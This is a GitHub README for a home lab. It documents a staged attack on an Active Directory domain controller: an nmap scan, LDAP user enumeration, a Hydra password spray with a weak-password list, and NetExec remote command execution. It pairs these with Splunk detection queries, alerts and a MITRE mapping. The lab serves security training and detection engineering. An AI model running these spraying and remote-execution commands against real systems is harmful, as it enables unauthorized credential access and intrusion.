




# Multi Stage Reconnaissance & Active Directory Penetration Testing Lab

[](https://github.com/yourusername/multi-stage-recon-lab)
[](https://www.splunk.com)
[](https://attack.mitre.org)
[](https://www.youtube.com/watch?v=NHnI9oP_xTY)

> **A hands on cybersecurity lab simulating a full multi stage reconnaissance attack against an Active Directory environment, coupled with real time SIEM detection and alerting using Splunk Enterprise.**

> **Video Walkthrough:** [Multi Stage Recon & AD Penetration Testing Lab (YouTube)](https://www.youtube.com/watch?v=NHnI9oP_xTY)

---

## Table of Contents

* [Overview](#overview)
* [Lab Architecture](#lab-architecture)
  * [Network Topology](#network-topology)
  * [System Specifications](#system-specifications)
* [Attack Chain (Red Team)](#attack-chain-red-team)
  * [Phase 1: Username Acquisition via Social Engineering](#phase-1-username-acquisition-via-social-engineering)
  * [Phase 2: Network Reconnaissance](#phase-2-network-reconnaissance)
  * [Phase 3: LDAP Enumeration](#phase-3-ldap-enumeration)
  * [Phase 4: Credential Access via Password Spraying](#phase-4-credential-access-via-password-spraying)
  * [Phase 5: Post Compromise Enumeration](#phase-5-post-compromise-enumeration)
* [Detection & Monitoring (Blue Team)](#detection--monitoring-blue-team)
  * [Splunk Data Ingestion](#splunk-data-ingestion)
  * [SPL Detection Queries](#spl-detection-queries)
  * [Dashboards](#dashboards)
  * [Alerts](#alerts)
  * [Correlation Queries](#correlation-queries)
* [MITRE ATT&CK Mapping](#mitre-attck-mapping)
* [Screenshots Gallery](#screenshots-gallery)
* [Repository Structure](#repository-structure)
* [Setup Guide](#setup-guide)
* [About the Author](#about-the-author)
* [Ethical Disclaimer](#ethical-disclaimer)

---

## Overview

This lab demonstrates a realistic multi stage attack scenario against a Windows Active Directory domain controller, followed by comprehensive detection engineering using Splunk SIEM. Here's the thing. Most security courses teach attacks or defense in isolation. But in the real world? They're inseparable. You can't defend against what you don't understand, and you can't attack effectively without knowing how defenders think.

I built this lab to bridge that gap. On one side, I took the Red Team perspective. Running reconnaissance, enumerating services, and eventually compromising credentials. On the other, I switched to the Blue Team perspective, building detection logic in Splunk to catch every move I had just made. Honestly, it's one of the most effective ways to learn both sides of the cybersecurity coin.

**What you'll learn:**
* How attackers map and enumerate internal networks
* How LDAP and SMB protocols can be abused for reconnaissance
* How password spraying differs from brute force (and why it works)
* How to build detection logic in Splunk using Windows Event Logs
* How to correlate multiple attack phases into a single detection narrative
* How to build actionable dashboards and alerts that actually reduce noise

---

## Lab Architecture

### Network Topology

```
                    +-----------------------------+
                    |         WAN Zone            |
                    |      192.168.57.0/24        |
                    |                             |
                    |  +---------------------+    |
                    |  |  Kali Linux         |    |
                    |  |  192.168.57.10      |    |
                    |  |  (Attacker)         |    |
                    |  +----------+----------+    |
                    |             |               |
                    +-------------|---------------+
                                  |
                    +-------------v---------------+
                    |    Firewall (OPNsense)      |
                    |  WAN: 192.168.57.254        |
                    |  LAN: 192.168.56.254        |
                    |         (Gateway)           |
                    +-------------+---------------+
                                  |
                    +-------------v---------------+
                    |         LAN Zone            |
                    |      192.168.56.0/24        |
                    |                             |
    +---------------+---------------+   +---------+----------+
    |   Domain Controller           |   |  Splunk Server     |
    |   192.168.56.102              |   |  192.168.56.106    |
    |   Windows Server 2016/2019    |   |  Ubuntu Linux      |
    |   WINDOMAIN.LOCAL             |   |  Splunk Enterprise |
    |   AD DS, DNS, LDAP, SMB       |   |  Port 8000 (Web)   |
    +---------------+---------------+   +---------+----------+
                    |                             |
    +---------------+---------------+             |
    |   Windows 10 Workstation      |             |
    |   192.168.56.104              |             |
    |   Management / Access         |             |
    |   Splunk & Firewall Web UIs   |             |
    +-------------------------------+             |
                                                  |
    Log Flow: DC ----(Port 9997)----> Splunk     |
    Syslog:  Firewall --(Port 514/UDP)--> Splunk |
```

> **Important:** All screenshots and commands in this repository were captured from this exact topology. Every IP address, port, and system configuration matches what you see in the screenshots folder.

### System Specifications

| System | IP Address | OS | Role | Default Gateway |
|--------|-----------|-----|------|----------------|
| Kali Linux (Attacker) | 192.168.57.10 | Kali Linux (Debian) | Red Team platform | 192.168.57.254 |
| Firewall | 192.168.57.254 (WAN)<br>192.168.56.254 (LAN) | OPNsense | Perimeter gateway, NAT, routing | N/A |
| Domain Controller | 192.168.56.102 | Windows Server 2016/2019 | AD DS, DNS, LDAP, SMB | 192.168.56.254 |
| Windows 10 Workstation | 192.168.56.104 | Windows 10 Pro | Management console | 192.168.56.254 |
| Splunk Server | 192.168.56.106 | Ubuntu/Debian Linux | SIEM, log collection & analysis | 192.168.56.254 |

### Data Collection Architecture

| Source | Destination | Protocol/Port | Data Type |
|--------|------------|---------------|-----------|
| Domain Controller | Splunk | TCP/9997 | Windows Event Logs (via Universal Forwarder) |
| OPNsense Firewall | Splunk | UDP/514 | Syslog (firewall rules, connections, drops) |

---

## Attack Chain (Red Team)

### Phase 1: Username Acquisition via Social Engineering

**Objective:** Obtain a valid username for the target domain before launching technical attacks.

Before I touched a single command, I needed a username to target. In a real world scenario, this often comes from open source intelligence (OSINT) gathering. LinkedIn profiles, company directories, or email patterns. For this lab, I assumed the role of an attacker who had already obtained a username through spear phishing or social engineering reconnaissance.

**The username acquired:** `vagrant`

This is a critical first step that many technical write ups skip. Understanding how usernames are acquired, whether through phishing, dumpster diving, or simply guessing based on naming conventions, is essential for building realistic attack simulations and effective defenses.

**MITRE Mapping:** T1566 — Phishing (pre attack intelligence gathering)

---

### Phase 2: Network Reconnaissance

**Objective:** Discover live hosts and open services on the target network.

I began by verifying connectivity to the target, then performed a targeted port scan to identify Active Directory services.

#### Ping Sweep (Connectivity Check)

```bash
# Verify the target is reachable
ping -c 4 192.168.56.102
```

#### Nmap Port Scan

```bash
# Scan key Active Directory and remote access ports
nmap -Pn -sV -p 53,389,445,3389 192.168.56.102
```

**What each flag does:**
* `-Pn` — Skip host discovery (treat target as online, no ping)
* `-sV` — Probe open ports to determine service/version info
* `-p 53,389,445,3389` — Scan only these specific ports:
  * `53` — DNS (Domain Name System)
  * `389` — LDAP (Lightweight Directory Access Protocol)
  * `445` — SMB (Server Message Block / Microsoft DS)
  * `3389` — RDP (Remote Desktop Protocol)

**What the output tells us:**
The scan reveals a Windows Server acting as a Domain Controller with LDAP, SMB, and RDP exposed. This is a goldmine for an attacker. SMB and LDAP are the two most commonly abused protocols in AD attacks.


---

### Phase 3: LDAP Enumeration

**Objective:** Extract user accounts, domain structure, and directory information from the target.

#### Enumerate Domain Users via LDAP

```bash
# Query LDAP for all user accounts in the domain
ldapsearch -x -H ldap://192.168.56.102 -D "windomain\vagrant" -w "vagrant" -b "dc=windomain,dc=local" "(&(objectclass=user)(SAMAccountName=*))" | grep sAMAccountName
```

**What each flag does:**
* `-x` — Use simple authentication instead of SASL
* `-H ldap://192.168.56.102` — LDAP server URI
* `-D "windomain\vagrant"` — Bind DN (the user we're authenticating as)
* `-w "vagrant"` — Password for the bind user
* `-b "dc=windomain,dc=local"` — Base DN (where to start the search in the directory tree)
* `"(&(objectclass=user)(SAMAccountName=*))"` — LDAP filter: find all objects that are users AND have a SAMAccountName
* `| grep sAMAccountName` — Filter output to show only usernames

**Why this works:** LDAP is designed for directory queries. If you have valid credentials (even low privileged ones), you can dump the entire user list, group memberships, computer accounts, and even password policy. It's basically reading the company's phone book. If you know how to ask.


---

### Phase 4: Credential Access via Password Spraying

**Objective:** Find valid credentials by testing common passwords against the discovered user account.

> **Note:** Password spraying differs from brute force. In brute force, you try thousands of passwords against one account. In password spraying, you try a few common passwords against one or more accounts. This avoids account lockout thresholds and flies under the radar much better.

In this lab, I targeted **one account only**: `vagrant`.

#### Step 1: Create a Password List

```bash
# Build a small list of commonly used weak passwords
cat > /tmp/passwordlist << EOF
password
123456
12345678
qwerty
abc123
monkey
letmein
dragon
111111
baseball
iloveyou
trustno1
sunshine
princess
admin
welcome
shadow
ashley
football
jesus
michael
ninja
mustang
password1
123456789
diamond
admin123
letmein1
photoshop
qwerty123
qaz123wsx
qwertyuiop
login
master
hello
freedom
whatever
qazxsw
trustno1
batman
passw0rd
hacker
EOF
```


#### Step 2: Verify the Password List

```bash
# Check the password list was created correctly
ls -la /tmp/passwordlist
wc -l /tmp/passwordlist
```


#### Step 3: Execute Password Spray with Hydra

```bash
# Spray passwords against the SMB service on the Domain Controller
hydra -l vagrant -P /tmp/passwordlist smb://192.168.56.102
```

**What each flag does:**
* `hydra` — The THC Hydra password cracking tool
* `-l vagrant` — Single username to test
* `-P /tmp/passwordlist` — Path to password list file
* `smb://192.168.56.102` — Target protocol and IP address

**What the output means:**
When Hydra finds a valid password, it displays the successful credential pair. In this lab, `vagrant:vagrant` was a valid credential. Not exactly Fort Knox level security, but you'd be surprised how often this happens in real environments.



---

### Phase 5: Post Compromise Enumeration

**Objective:** Verify access and enumerate privileges on the compromised system.

#### Execute Remote Command via SMB

```bash
# Run a command on the target to verify privilege level
nxc smb 192.168.56.102 -u vagrant -p vagrant -x "whoami /priv"
```

**What each flag does:**
* `nxc smb` — Use NetExec's SMB module
* `192.168.56.102` — Target IP address
* `-u vagrant` — Username
* `-p vagrant` — Password
* `-x "whoami /priv"` — Execute the specified command on the target via SMB

**What the output tells us:**
The `whoami /priv` command lists all privileges assigned to the current token. I can see privileges like `SeMachineAccountPrivilege`, `SeSecurityPrivilege`, and `SeTakeOwnershipPrivilege`. Here's the thing. Just having a privilege doesn't mean you can use it effectively, but it tells us what doors might be unlocked if we find the right key.


---

## Detection & Monitoring (Blue Team)

### Splunk Data Ingestion

Before I could detect anything, I needed logs. Lots of them. Here's how the data flows:

| Source | Method | Splunk Input |
|--------|--------|--------------|
| Domain Controller | Splunk Universal Forwarder | `WinEventLog://Security` via TCP/9997 |
| OPNsense Firewall | Syslog UDP | UDP/514 |

**Verify data is flowing:**

```spl
# Check that Windows security events are being indexed
index=main sourcetype=WinEventLog
| head 10
```

### SPL Detection Queries

#### Query 1: Brute Force / Password Spray Detection

Detect multiple failed login attempts (EventCode 4625) from a single source IP:

```spl
index=main host=dc EventCode=4625
| stats count by src_ip
| where count > 5
```

**Line by line breakdown:**
* `index=main host=dc EventCode=4625` — Pull failed logon events from the main index, filtered to the Domain Controller host
* `| stats count by src_ip` — Count events grouped by source IP address
* `| where count > 5` — Filter to only show IPs with more than 5 failed attempts


**Results:** The query identified **105 failed login attempts** from attacker IP **192.168.57.10**.

---

#### Query 2: Successful Authentication Detection

Detect successful logons (EventCode 4624) that may follow a password spray:

```spl
index=main sourcetype="WinEventLog" EventCode=4624
| stats count by src_ip
```

**What to look for:**
* Source IP 192.168.57.10 appearing in successful logons
* Correlation with the brute force detection query


---

#### Query 3: Time Series Visualization

Create a time based chart to visualize attack patterns:

```spl
index=main sourcetype="WinEventLog" EventCode=4625
| timechart span=1m count by src_ip
```


---

### Dashboards

I built a multi panel detection dashboard called **"Detection Engineering1"** (owner: ojama) that provides a holistic view of the attack:

| Panel | Purpose |
|-------|---------|
| Failed Logins | Real time failed authentication attempts |
| Time Series Visualization | Attack pattern visualization over time |
| Successful Login | Confirmed compromise indicators |




---

### Alerts

#### Alert 1: Brute Force Detection

* **Name:** Brute Force
* **Trigger Condition:** Number of Results is > 5 in 1 minute
* **Action:** Add to Triggered Alerts
* **App:** search
* **Alert Type:** Real time



#### Alert 2: Failed Logon Alert

* **Name:** Failed Logon
* **Trigger Condition:** Number of Results is > 0 in 1 minute
* **Actions:** 
  * Add to Triggered Alerts
  * Send email
* **Alert Type:** Real time



---

### Correlation Queries

The real power of detection engineering comes from correlating multiple indicators into a single attack narrative. Here's a correlation query that ties together the entire attack chain:

```spl
index=main host=dc (EventCode=4624 OR EventCode=4625) src_ip="192.168.57.10"
| eval attack_phase=case(
    EventCode=4625, "Phase 1: Brute Force Attempts",
    EventCode=4624, "Phase 2: Successful Authentication",
    1=1, "Other"
)
| where attack_phase!="Other"
| stats count by attack_phase, src_ip
| sort -count
```

**Line by line breakdown:**
* `index=main host=dc` — Search events from the Domain Controller
* `(EventCode=4624 OR EventCode=4625)` — Focus on authentication related events
* `src_ip="192.168.57.10"` — Filter to the known attacker IP
* `| eval attack_phase=case(...)` — Categorize each event into an attack phase
* `| where attack_phase!="Other"` — Remove uncategorized events
* `| stats count by attack_phase, src_ip` — Summarize by phase and attacker


---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Lab Application | Detection Data Source |
|--------|-------------|----------------|-----------------|----------------------|
| Initial Access | T1566 | Phishing | Username acquisition via social engineering | Email Logs, User Training |
| Reconnaissance | T1046 | Network Service Scanning | Nmap scan against DC | Network Traffic, Firewall Logs |
| Reconnaissance | T1018 | Remote System Discovery | Host enumeration via ping sweep | Network Traffic |
| Discovery | T1087 | Account Discovery | LDAP enumeration of domain users | Windows Event Logs |
| Credential Access | T1110 | Brute Force | Hydra password spraying attack | Windows Event Code 4625 |
| Initial Access | T1078 | Valid Accounts | Successful authentication with vagrant | Windows Event Code 4624 |
| Credential Access | T1003.001 | OS Credential Dumping: LSASS Memory | LSASS handling NTLM authentication | Windows Event Code 4624, Process Monitoring |
| Discovery | T1033 | System Owner/User Discovery | whoami /priv execution | Windows Event Logs, Process Monitoring |
| Lateral Movement | T1021.002 | Remote Services: SMB/Windows Admin Shares | NetExec SMB command execution | Network Traffic, Windows Event Logs |
| Lateral Movement | T1021.001 | Remote Desktop Protocol | RDP service discovery | Network Traffic |

---

## Screenshots Gallery

### Attack Phase Screenshots

| Screenshot | Description |
|-----------|-------------|
| [Nmap Scan](screenshots/Nmap%20Scan.png) | Port scanning the Domain Controller |
| [LDAP Enumeration](screenshots/ldapsearch%20query.correct.png) | Querying AD users via LDAP |
| [Password List Creation](screenshots/Passwordlist%20Creation.png) | Creating the password spray list |
| [Password List Check](screenshots/Passwordlist%20Check.png) | Verifying the password list file |
| [Hydra Brute Force Successful](screenshots/Hydra-Brute-Force-Successful.png) | Hydra successful password spray |
| [SMB Post Compromise](screenshots/smb%20post%20compromise.png) | Enumerating privileges after compromise |
| [Whoami](screenshots/Whoami.png) | LSASS process in authentication event |

### Detection & Monitoring Screenshots

| Screenshot | Description |
|-----------|-------------|
| [Alert Real IP](screenshots/Alert%20Real%20IP.png) | Brute force detection with attacker IP 192.168.57.10 |
| [Successful Logins](screenshots/successfull%20logins%20using%20tools.png) | Successful auth query results |
| [Dashboard](screenshots/Dashboard%20with%20correct%20ip.png) | Full detection dashboard with attacker IP |
| [Dashboard Extended](screenshots/Dashboard%20with%20correct%20ip..png) | Dashboard showing successful logins with attacker IP |
| [Dashboard Time Series Save](screenshots/Detect-Dashboard-Timeseries.png) | Time series panel save dialog |
| [Time Series Query](screenshots/Dashboard-Time%20Series.png) | Time based visualization query |
| [Correlation Query](screenshots/correlation%20query.png) | Multi phase attack correlation |
| [Alert Configuration](screenshots/Alert.png) | Brute force alert setup |
| [Alert Results](screenshots/Alert-Result.png) | Triggered alert history |
| [Authentication Event](screenshots/Authentication%20successful.png) | Event 4624 showing successful logon |
| [Attacker Source IP](screenshots/Attacker%20src_ip.png) | Source IP attribution in events |

### Infrastructure Screenshots

| Screenshot | Description |
|-----------|-------------|
| [Firewall Rules](screenshots/Firewall%20configuration.png) | OPNsense firewall rule configuration |
| [Firewall Dashboard](screenshots/firewall%20dashboard.png) | Firewall traffic monitoring |
| [Splunk Server CLI](screenshots/Splunk%20server%20CLi.png) | Splunk server command line |
| [Setup Troubleshooting](screenshots/Setup%20Troubleshooting.png) | Lab setup verification |

### Network Traffic Analysis

| Screenshot | Description |
|-----------|-------------|
| [SYN Packets](screenshots/SYN%20packets.png) | Nmap SYN scan capture |
| [LDAP Packets](screenshots/ldap%20packets.png) | LDAP query packet capture |
| [SMB Packets](screenshots/Smb%20packets.png) | SMB session packets |
| [TCP Handshake](screenshots/tcp%20stream%20handshake.png) | TCP three way handshake |
| [Source to Dest](screenshots/src%20to%20dst%20packets.png) | Traffic flow analysis |

---

## Repository Structure

```
multi-stage-recon-lab/
├── README.md                          # This file
├── LICENSE                            # License information
├── .gitignore                         # Git ignore rules
├── Multi-Stage-Recon-Lab-Project-Report.pdf  # Project PDF report
├── generate_pdf.py                    # PDF generator script
├── docs/
│   ├── setup-guide.md                 # Detailed setup instructions
│   ├── network-topology.md            # Network diagram and specifications
│   └── mitre-mapping.md               # Full MITRE ATT&CK mapping table
├── configs/
│   ├── firewall/
│   │   ├── opnsense-rules.md          # OPNsense firewall rule documentation
│   │   └── syslog-config.md           # Syslog forwarding configuration
│   ├── splunk/
│   │   ├── inputs.conf                # Splunk input configurations
│   │   ├── props.conf                 # Field extractions and parsing
│   │   └── savedsearches.conf         # Pre-built detection queries
│   ├── windows/
│   │   ├── audit-policy.ps1           # Enable Windows auditing
│   │   └── splunk-forwarder-install.ps1  # Universal Forwarder install script
│   └── kali/
│       ├── recon.sh                   # Automated reconnaissance script
│       ├── password-spray.sh          # Password spray automation
│       └── tools-install.sh           # Kali tools installation
├── spl-queries/
│   ├── brute-force-detection.spl      # EventCode 4625 detection
│   ├── successful-auth-detection.spl  # EventCode 4624 detection
│   ├── time-series-visualization.spl  # Time-based attack pattern
│   └── correlated-attack-chain.spl    # Multi-phase correlation
├── scripts/
│   ├── python/
│   │   ├── log-parser.py              # Parse and analyze exported logs
│   │   ├── mitre-mapper.py            # Generate MITRE mapping reports
│   │   └── alert-correlator.py        # Correlate multi-source alerts
│   └── bash/
│       ├── lab-setup.sh               # Automated lab provisioning
│       └── health-check.sh            # Verify all services running
├── reports/
│   ├── executive-summary.md           # Non-technical summary
│   ├── technical-findings.md          # Detailed technical report
│   └── mitigation-roadmap.md          # Remediation priorities
└── screenshots/                       # All lab screenshots (38 files)
```

---

## Setup Guide

### Prerequisites

* VirtualBox or VMware Workstation
* 16GB+ RAM recommended
* 100GB+ free disk space
* Basic understanding of networking and Active Directory

### VM Setup

1. **OPNsense Firewall**
   * Import OPNsense ISO
   * Configure WAN: 192.168.57.254/24
   * Configure LAN: 192.168.56.254/24
   * Enable NAT between zones
   * Configure firewall rules (see `configs/firewall/opnsense-rules.md`)

2. **Domain Controller (Windows Server)**
   * Install Windows Server 2016/2019
   * Configure static IP: 192.168.56.102/24
   * Install AD DS, DNS roles
   * Create domain: `windomain.local`
   * Install Splunk Universal Forwarder
   * Configure Windows Event Log forwarding to Splunk on port 9997

3. **Splunk Server (Ubuntu)**
   * Install Ubuntu 20.04/22.04 LTS
   * Configure static IP: 192.168.56.106/24
   * Install Splunk Enterprise
   * Configure inputs for Windows Event Logs (port 9997) and Syslog (port 514)

4. **Windows 10 Workstation**
   * Install Windows 10 Pro
   * Configure static IP: 192.168.56.104/24
   * Join to `windomain.local` domain
   * Install web browsers for accessing Splunk and OPNsense web interfaces

5. **Kali Linux (Attacker)**
   * Install Kali Linux
   * Configure static IP: 192.168.57.10/24
   * Install tools: `nmap`, `ldap-utils`, `hydra`, `netexec`

---

## About the Author

**Akpoga Dickson Ojama**

Cybersecurity enthusiast and practitioner focused on red team operations, blue team defense, and SIEM engineering. This lab was built as a hands on exercise to bridge the gap between offensive and defensive security skills.

* **Email:** ojamadickson@gmail.com
* **YouTube:** [Lab Walkthrough](https://www.youtube.com/watch?v=NHnI9oP_xTY)

---

## Ethical Disclaimer

> **This lab is designed for educational and authorized testing purposes only.**

The techniques, tools, and procedures described in this repository are intended to be used in controlled lab environments for learning defensive and offensive security skills. **Do not use these techniques against systems you do not own or have explicit written permission to test.**

Unauthorized access to computer systems is illegal under:
* Computer Fraud and Abuse Act (CFAA) in the United States
* Computer Misuse Act in the United Kingdom
* Similar legislation in most jurisdictions worldwide

By using this repository, you agree to:
1. Only test against systems you own or have written authorization to test
2. Use the knowledge gained to improve security defenses
3. Report vulnerabilities responsibly
4. Never use these techniques for malicious purposes

**Stay ethical. Stay legal. Stay curious.**

---

## References

* [MITRE ATT&CK Framework](https://attack.mitre.org/)
* [Splunk Documentation](https://docs.splunk.com/)
* [Nmap Reference Guide](https://nmap.org/book/man.html)
* [Hydra Documentation](https://github.com/vanhauser-thc/thc-hydra)
* [NetExec Documentation](https://www.netexec.wiki/)
* [OPNsense Documentation](https://docs.opnsense.org/)
* [Microsoft Windows Security Log Events](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/)
* [YouTube: Multi Stage Recon & AD Penetration Testing Lab Walkthrough](https://www.youtube.com/watch?v=NHnI9oP_xTY)

---

<p align="center">
  <i>Built with curiosity, caffeine, and a healthy dose of paranoia.</i><br>
  <b>Happy Hunting! </b>
</p>
